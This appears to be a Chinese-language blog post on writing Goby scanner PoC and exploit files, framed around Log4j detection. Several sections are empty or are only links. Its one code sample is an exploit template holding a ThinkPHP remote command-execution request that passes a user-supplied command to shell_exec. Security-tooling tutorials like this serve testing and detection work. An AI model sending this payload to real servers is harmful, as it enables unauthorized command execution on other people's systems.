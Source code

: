 ```yaml
---
layout: post
title: 网络安全渗透测试使用 goby 检测 log4j 漏洞
categories: [安全]
description: goby 扫描器使用方式
keywords:  安全
---
```


# goby 

Goby 是通过 golang 编写的扫描器，同时拥有资产扫描、资产识别和漏洞扫描能力，安装简单，直接解压即可使用，界面也非常友好，内置了大量由官方和其他网络安全从业者提供的poc。

下载链接:

https://github.com/gobysec/Goby/releases



## 前言

前段时间的Log4j漏洞影响很广泛，网上已经公开了很多地方的利用方式，而平时用goby较多，就想利用goby的指纹识别对目标定向检测。这篇文章就从Apache Solr Log4j漏洞为例，教大家如何写goby poc，文章中有错误还请及时指正。

Goby可以通过编写go文件，来实现一些高级的漏洞检测或利用，例如dnslog检测漏洞，详情可查阅goby官方文档：https://cn.gobies.org/docs/exp/index.html

## 准备知识

[ 添加 goby poc 教程](https://github.com/gobysec/Goby/wiki/Vulnerability-writing-guide#goby-%E6%BC%8F%E6%B4%9E%E6%89%AB%E6%8F%8F%E5%BC%95%E6%93%8E%E6%A8%A1%E6%9D%BF%E4%BB%8B%E7%BB%8D)

## 二、漏洞復現





## 三、goby poc 编写

Goby 是通过 golang 编写的，而一些漏洞检测场景（比如dnslog验证），goby自身的JSON 格式无法满足这一需求，需采用 Golang 编写漏洞代码。



### expJson部分

### poc编写

[参考](https://github.com/gobysec/Goby/wiki/Vulnerability-writing-guide#poc-%E7%BC%96%E5%86%99)

### EXP 编写

  goby还有Verify功能，我们需要增加exp部分才可以在扫描到漏洞之后直接用goby验证，但是这部分没法在gui编写。首先，找到刚才编写的POC自动生成的JSON文件。


> 路径：\goby-win-x64-1.8.202\golib\exploits\user


exp 例子：
```
"HasExp": true				// 是否录入 Exp，如有 Exp，Goby 在扫描到漏洞后会展现出 verify 按钮用以执行 Exp 验证漏洞
"ExpParams": [				// 前端需要传递给 Exp 的参数，如要执行的命令
    {
        "name": "cmd",		// 参数的名称
        "type": "input",	// 参数输入类型，input 表示需要用户输入，select 表示 Exp 可以提供默认列表让用户进行选择输入内容
        "value": "whoami"	// 参数的值
    }
]
"ExploitSteps": [
    "AND",
    {
        "Request": {
            "method": "GET",
            "uri": "/index.php?s=/Index/\\think\\app/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]={{{cmd}}}",					// 通过 {{{参数名称}}} 引用前端传递过来的值
            "follow_redirect": true,
            "header": {},
            "data_type": "text",
            "data": ""
        },
        "SetVariable": ["output|lastbody"]		// 将响应的 HTTP Body 打印出来，展示命令执行效果
    }
]
```






## Goby+AWVS看黑客如何躺着挖洞

[参考](https://zhuanlan.zhihu.com/p/414104243)
